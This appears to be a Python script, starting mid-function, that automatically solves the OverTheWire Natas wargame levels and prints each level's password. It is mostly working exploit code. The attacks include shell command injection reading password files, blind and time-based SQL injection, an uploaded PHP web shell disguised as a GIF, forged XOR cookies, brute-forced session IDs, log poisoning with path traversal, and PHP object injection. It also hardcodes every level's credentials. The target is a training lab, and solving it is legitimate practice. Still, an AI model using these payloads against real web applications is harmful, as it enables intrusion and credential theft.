secret = base64.b64decode(bytes.fromhex(encoded_secret).decode('utf-8')[::-1]).decode()
data = {
'secret': secret,
'submit': 'submit',
}
# Pass secret value via POST request
response = requests.post(url, auth=(username, password), data=data)
content = response.text
flag = re.findall('Access granted. The password for natas9 is (.*)', content)[0]
return flag
def natas9(verbose=False):
username = 'natas9'
password = 'W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl'
url = f'http://{username}.natas.labs.overthewire.org'
data = {
'needle': '; cat /etc/natas_webpass/natas10; #',
'submit': 'submit',
}
response = requests.post(url, auth=(username, password), data=data)
content = response.text
flag = re.findall('Output:\n<pre>\n(.*)\n</pre>', content)[0]
return flag
def natas10(verbose=False):
username = 'natas10'
password = 'nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu'
url = f'http://{username}.natas.labs.overthewire.org'
data = {
'needle': '. /etc/natas_webpass/natas11 #',
'submit': 'submit',
}
response = requests.post(url, auth=(username, password), data=data)
content = response.text
flag = re.findall('Output:\n<pre>\n(.*)\n</pre>', content)[0]
return flag
def natas11(verbose=False):
import base64
import urllib
username = 'natas11'
password = 'U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK'
url = f'http://{username}.natas.labs.overthewire.org'
# PHP xor_encrypt() function from natas11 source converted to Python
def xor(x, y):
output = ''
for i in range(len(x)):
output += chr(ord(x[i]) ^ ord(y[i % len(y)]))
return output
with requests.Session() as session:
session.auth = (username, password)
response = session.get(url)
# Cookie received is URL encoded, so decode using urllib.parse.unquote(str)
cookie_received = urllib.parse.unquote(session.cookies['data'])
# After URL decoding, decode from base64
b64_decoded = base64.b64decode(cookie_received)
# Original $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
showpassword_no = '{"showpassword":"no","bgcolor":"#ffffff"}'
''' Unnecessary steps, but demonstrates bin2hex and hex2bin
# Convert from binary to hex
hex_encoded = b64_decoded.hex()
# Convert from hex to binary
binary_encoded = bytes.fromhex(hex_encoded).decode()
# XOR will return same result as direct method below
xor_key = xor(showpassword_no, binary_encoded)
'''
xor_key = xor(showpassword_no, b64_decoded.decode())
# xor_key is a repeated string 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq'
key = xor_key[:4] # Key is the first 4 characters that get repeated
# XOR showpassword_yes with key to generate cookie_payload
showpassword_yes = '{"showpassword":"yes","bgcolor":"#ffffff"}'
ciphertext = xor(showpassword_yes, key)
cookie_payload = base64.b64encode(ciphertext.encode()).decode()
session.cookies.set('data', cookie_payload)
response = session.get(url)
content = response.text
return re.findall('The password for natas12 is (.*)<br>', content)[0]
def natas12(verbose=False):
level = 12
username = f'natas{level}'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
url = f'http://{username}.natas.labs.overthewire.org/'
'''
<?php
system($_GET['foo_bar']);
?>
'''
# Upload PHP reverse shell file via POST request
response = requests.post(
url,
auth=(username, password),
files = {'uploadedfile': open(f'{username}_reverse_shell.php', 'rb')},
data = {'filename': f'{username}_reverse_shell.php'}
)
# Get location of uploaded PHP reverse shell file
relative_path = re.findall('The file <a href="(.*)">upload/', response.text)[0]
# Use uploaded PHP reverse shell file to read contents of password file
command = f'?foo_bar=cat /etc/natas_webpass/natas{level+1}'
response = requests.post(url+relative_path+command, auth=(username, password))
return response.text.strip()
def natas13(verbose=False):
level = 13
username = f'natas{level}'
password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'
url = f'http://{username}.natas.labs.overthewire.org/'
'''
GIF89a
<?php
system($_GET['foo_bar']);
?>
'''
# Upload PHP reverse shell file disguised as GIF89a image file via POST request
response = requests.post(
url,
auth=(username, password),
files = {'uploadedfile': open(f'{username}_reverse_shell.php', 'rb')},
data = {'filename': f'{username}_reverse_shell.php'}
)
# Get location of uploaded PHP reverse shell file
relative_path = re.findall('The file <a href="(.*)">upload/', response.text)[0]
# Use uploaded PHP reverse shell file to read contents of password file
command = f'?foo_bar=cat /etc/natas_webpass/natas{level+1}'
response = requests.post(url+relative_path+command, auth=(username, password))
return re.findall('GIF89a\n\n(.*)\n', response.text)[0]
def natas14(verbose=False):
level = 14
username = f'natas{level}'
password = 'Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1'
url = f'http://{username}.natas.labs.overthewire.org/'
sql_command = '" OR 1=1 #'
data = {
'username': sql_command,
'password': '',
}
response = requests.post(url, auth=(username, password), data=data)
content = response.text
flag = re.findall('Successful login! The password for natas15 is (.*)<br>', content)[0]
return flag
def natas15(verbose=False):
import string
level = 15
username = f'natas{level}'
password = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
url = f'http://{username}.natas.labs.overthewire.org/'
# Generate list of all possible flag characters
possible_characters = string.ascii_lowercase + string.ascii_uppercase + string.digits
def http_request(username, password, password_try):
sql_command = f'natas16" AND BINARY password LIKE "{password_try}%" #'
data = {'username': sql_command}
response = requests.post(url, auth=(username, password), data=data)
return response.text
# flag = ''
flag = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
loop = True
while loop:
for counter, char in enumerate(possible_characters):
password_try = flag + char
if verbose: print(f'Level {level}\tTrying...' + password_try)
if 'This user exists.' in http_request(username, password, password_try):
flag += char
break
elif counter==len(possible_characters)-1:
# If none of possible_characters match, then stop looping
loop = False
return flag
def natas16(verbose=False):
import string
level = 16
username = f'natas{level}'
password = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
url = f'http://{username}.natas.labs.overthewire.org/'
# Generate list of all possible flag characters
possible_characters = string.ascii_letters + string.digits
def http_request(username, password, password_try):
bash_command = f'vulnerability$(grep ^{password_try} /etc/natas_webpass/natas17)'
data = {'needle': bash_command}
response = requests.post(url, auth=(username, password), data=data)
return response.text
# flag = ''
flag = '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'
loop = True
while loop:
for counter, char in enumerate(possible_characters):
password_try = flag + char
if verbose: print(f'Level {level}\tTrying...' + password_try)
if 'Output:\n<pre>\nvulnerability\n</pre>\n' not in http_request(username, password, password_try):
flag += char
break
elif counter==len(possible_characters)-1:
# If none of possible_characters match, then stop looping
loop = False
return flag
def natas17(verbose=False):
import string
from time import time
level = 17
username = f'natas{level}'
password = '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'
url = f'http://{username}.natas.labs.overthewire.org/'
# Generate list of all possible flag characters
possible_characters = string.ascii_letters + string.digits
def http_request(username, password, password_try):
t0 = time()
sql_command = f'natas18" AND BINARY password LIKE "{password_try}%" AND SLEEP(10) #'
data = {'username': sql_command}
response = requests.post(url, auth=(username, password), data=data)
return time()-t0
# flag = ''
flag = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'
loop = True
while loop:
for counter, char in enumerate(possible_characters):
password_try = flag + char
t1 = http_request(username, password, password_try)
if verbose: print(f'Level {level}\tTrying...', password_try, str(round(t1, 3)), 'seconds')
if t1 > 10:
# If reponse time > 10 secs, then SQL 'SLEEP' command succeeded and password_try character(s) exist(s)
flag += char
break
elif counter==len(possible_characters)-1:
# If none of possible_characters match, then stop looping
loop = False
return flag
def natas18(verbose=False):
level = 18
username = f'natas{level}'
password = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'
url = f'http://{username}.natas.labs.overthewire.org/'
def http_request(session_id):
with requests.Session() as session:
cookies={'PHPSESSID': session_id}
response = session.post(url, auth=(username, password), cookies=cookies)
return response.text
range_start = 118 # Set to 0 to run full range
range_end = 641
for session_id in range(range_start, range_end):
content = http_request(str(session_id))
if 'You are logged in as a regular user. Login as an admin to retrieve credentials' in content:
if verbose: print(f'Level {level}\tTrying... PHPSESSID', session_id)
elif 'You are an admin. The credentials for the next level are:' in content:
return re.findall('The credentials for the next level are:<br><pre>Username: natas19\nPassword: (.*)</pre>', content)[0]
else:
return 'Error, incorrect PHPSESSID.'
def natas19(verbose=False):
import binascii
level = 19
username = f'natas{level}'
password = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
url = f'http://{username}.natas.labs.overthewire.org/'
def http_request(session_id):
with requests.Session() as session:
cookies = {'PHPSESSID': session_id}
response = session.post(url, auth=(username, password), cookies=cookies)
return response.text
range_start = 280 # Set to 0 to run full range
range_end = 641
for i in range(range_start, range_end):
PHPSESSID = binascii.hexlify(f'{str(i)}-admin'.encode()).decode()
content = http_request(PHPSESSID)
if 'You are logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>' in content:
if verbose: print(f'Level {level}\tTrying... id', str(i).zfill(3), 'PHPSESSID:', PHPSESSID)
elif 'You are an admin. The credentials for the next level are:<br><pre>Username: natas20' in content:
return re.findall('Password: (.*)</pre></div>', content)[0]
else:
return 'Error, incorrect PHPSESSID.'
def natas20(verbose=False):
level = 20
username = f'natas{level}'
password = 'eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF'
url = f'http://{username}.natas.labs.overthewire.org/'
with requests.Session() as session:
session.auth=(username, password)
data = {'name': 'foobar\nadmin 1'}
# Send newline admin payload via POST request
response = session.post(url=url, data=data)
# Make new HTTP request with cookie obtained from previous request
response = session.get(url=url, cookies=response.cookies)
flag = re.findall('Password: (.*)</pre>', response.text)[0]
return flag
def natas21(verbose=False):
level = 21
username = f'natas{level}'
password = 'IFekPyrQXftziDEsUr3x21sYuahypdgJ'
url = f'http://{username}.natas.labs.overthewire.org/'
experimenter_url = f'http://{username}-experimenter.natas.labs.overthewire.org/index.php'
with requests.Session() as session:
# Set admin value to '1' via POST request
data = {'admin': '1', 'submit': 'submit'}
response = session.post(url=experimenter_url, auth=(username, password), data=data)
# Get automatically assigned PHPSESSID from experimenter URL
cookies= {'PHPSESSID': response.cookies.get('PHPSESSID')}
# Since session is shared, use same PHPSESSID to access main URL to log in as admin
response = session.post(url=url, auth=(username, password), cookies=cookies)
flag = re.findall('Password: (.*)</pre>', response.text)[0]
return flag
def natas22(verbose=False):
level = 22
username = f'natas{level}'
password = 'chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ'
url = f'http://{username}.natas.labs.overthewire.org/'
response = requests.get(url=f'{url}?revelio', auth=(username, password), allow_redirects=False)
flag = re.findall('Password: (.*)</pre>', response.text)[0]
return flag
def natas23(verbose=False):
level = 23
username = f'natas{level}'
password = 'D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE'
url = f'http://{username}.natas.labs.overthewire.org/'
# PHP code: if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10)){ ...
# As there is an 'e' in the string, then it is treated as a float in $_REQUEST["passwd"] > 10
# Therefore prepend number larger than 10 to string
data = {'passwd': '99iloveyou'}
response = requests.post(url=url, auth=(username, password), data=data)
flag = re.findall('<pre>Username: natas24 Password: (.*)</pre>', response.text)[0]
return flag
def natas24(verbose=False):
level = 24
username = f'natas{level}'
password = 'OsRmXFguozKpTZZ5X14zNO43379LZveg'
url = f'http://{username}.natas.labs.overthewire.org/'
response = requests.get(url=f'{url}?passwd[]', auth=(username, password))
flag = re.findall('Password: (.*)</pre>', response.text)[0]
return flag
def natas25(verbose=False):
level = 25
username = f'natas{level}'
password = 'GHF6X7YwACaYYssHVY05cFq83hRktl4c'
url = f'http://{username}.natas.labs.overthewire.org/'
with requests.Session() as session:
session.auth = (username, password)
response = session.get(url=f'{url}?lang=en')
PHPSESSID = response.cookies.get('PHPSESSID')
# PHP code prevents inclusion of 'natas_webpass': strstr($filename,"natas_webpass")
# But logs are saved to server
# Therefore include PHP payload in User-Agent header
php_payload = "<?php system('cat /etc/natas_webpass/natas26'); ?>"
headers = {'User-Agent': php_payload}
# language of website is set by taking 'lang' parameter and reading file
# PHP code replaces '../' with '': $filename=str_replace("../","",$filename);
# Therefore '..././' will reduce to '../', then link to payload log file
# $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
data = {'lang': '..././'*5 + 'var/www/natas/natas25/logs/natas25_' + PHPSESSID + '.log'}
response = session.post(url, data=data, headers=headers)
flag = re.findall('] ([a-zA-Z0-9]*)\n "Directory traversal attempt! fixing request."', response.text)[0]
return flag
def natas26(verbose=False):
import base64
import subprocess
level = 26
username = f'natas{level}'
password = 'oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T'
url = f'http://{username}.natas.labs.overthewire.org/'
'''
<?php
class Logger{
private $logFile;
private $initMsg;
private $exitMsg;
function __construct(){
// initialise variables
$this->initMsg = "<?php system('cat /etc/natas_webpass/natas27'); ?>";
$this->exitMsg = "<?php system('cat /etc/natas_webpass/natas27'); ?>";
$this->logFile = "img/00000000.php";
// write initial message
$fd=fopen($this->logFile,"a+");
fwrite($fd,$initMsg);
fclose($fd);
}
function log($msg){
$fd=fopen($this->logFile,"a+");
fwrite($fd,$msg."\n");
fclose($fd);
}
function __destruct(){
// write exit message
$fd=fopen($this->logFile,"a+");
fwrite($fd,$this->exitMsg);
fclose($fd);
}
}
$logger_object = new Logger();
// echo(serialize($logger_object));
// echo("\n");
echo(base64_encode(serialize($logger_object)));
// echo("\n");
?>
'''
subproc = subprocess.run(
args = ['php', 'natas26_php_object_injection.php'],
stdout = subprocess.PIPE,
stderr = subprocess.DEVNULL,
text = True,
)
php_object_b64 = subproc.stdout
# php_object_b64 = 'Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nLzAwMDAwMDAwLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ=='
with requests.Session() as session:
session.auth = (username, password)
session.cookies['drawing'] = php_object_b64
response = session.get(url)
response = session.get(url + 'img/00000000.php')
return response.text.split('\n')[0]
def output_next_level(level, flag):
return f'natas{level}\thttp://natas{level}.natas.labs.overthewire.org/\t{flag}'
def get_flag(level, **kwargs):
func = globals().get(f'natas{level}')
if func:
return output_next_level(level+1, func(**kwargs))
else:
return f'Error! Function natas{level} not found.'
def get_all_flag_funcs():
natas_funcs = []
for k,v in globals().items():
if 'natas' in k:
natas_funcs.append(v)
return natas_funcs
def error_main():
sys.stderr.write(f'Usage:\n$ python {sys.argv[0]}\n$ python {sys.argv[0]} -v -l <arg>\t(where <arg> must be an integer)\n')
def main():
if len(sys.argv)==1:
print(output_next_level(0, 'natas0'))
for counter, func in enumerate(get_all_flag_funcs()):
print(output_next_level(counter+1, func()))
print('--END--')
elif len(sys.argv)>1:
kwargs = {}
if '-v' in sys.argv:
kwargs.update({'verbose': True})
if '-l' in sys.argv and sys.argv.index('-l')<len(sys.argv)-1 and sys.argv[sys.argv.index('-l')+1].isdigit():
sys.stdout.write(f'{get_flag(int(sys.argv[sys.argv.index("-l")+1]), **kwargs)}\n')
elif len(sys.argv)==2:
print(output_next_level(0, 'natas0'))
for counter, func in enumerate(get_all_flag_funcs()):
print(output_next_level(counter+1, func(**kwargs)))
print('--END--')
else:
error_main()
elif '-l' in sys.argv and sys.argv.index('-l')<len(sys.argv)-1 and sys.argv[sys.argv.index('-l')+1].isdigit():
sys.stdout.write(f'{get_flag(int(sys.argv[sys.argv.index("-l")+1]))}\n')
else:
error_main()
else:
error_main()
if __name__=='__main__':
main()